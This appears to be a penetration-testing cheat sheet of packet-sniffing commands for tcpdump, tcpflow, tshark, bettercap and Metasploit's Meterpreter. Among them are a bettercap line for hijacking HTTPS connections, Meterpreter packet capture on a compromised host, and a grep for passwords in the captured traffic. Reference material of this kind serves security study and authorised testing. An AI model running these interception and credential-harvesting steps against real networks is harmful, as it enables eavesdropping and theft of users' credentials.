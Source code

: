 ## Sniffing with tcpdump

Sniffing everything:

```bash
tcpdump -i lo
```

Sniffing on the specific port

```bash
tcpdump -i lo port 25
```


### Sniffing HTTP traffic

Showing only HTTP traffic with headers and message body

```bash
tcpdump -i any -A -s 0 'tcp port 8090 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'
```

Showing only HTTP traffic with headers and message body from a particular source
```bash
tcpdump -i any -A -s 0 'src example.com and tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'
```


## Sniffing with tcpflow

Sniffing on the specific port
```bash
tcpflow -c port 25
```

Showing data as HEX

```bash
tcpflow -c port 25 -D
```

## Sniffing with tshark

Extracting all outgoing IP addresses

```bash
tshark -r darksouls.pcapng -Y "ip.dst_host != 192.168.178.43" -T fields -e ip.dst_host |sort |uniq
```

## Sniffing with bettercap

Starting bettercap with a web server

```bash
bettercap -iface tun0 -caplet https-ui
```

Hijacking HTTPS connections

```bash
bettercap -iface tun0 -caplet https-ui -caplet hstshijack/hstshijack.cap
```

## Sniffing with Metasploit 

Using Meterpreter sniffer

```bash
meterpreter > use sniffer
meterpreter > sniffer_interfaces
meterpreter > sniffer_start 2
meterpreter > sniffer_dump 2 /tmp/all.cap
```

Meterpreter - packetrecorder

```bash
meterpreter > run packetrecorder 
meterpreter > run packetrecorder -li
meterpreter > run packetrecorder -i 2 -l /root/
root@kali:~/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105# tshark -r XEN-XP-SP2-BARE_20101119.5105.cap |grep PASS
```

## Sniffing serial ports

- https://github.com/nochkin/interceptty                                                       
- https://github.com/snarlistic/jpnevulator                                                    

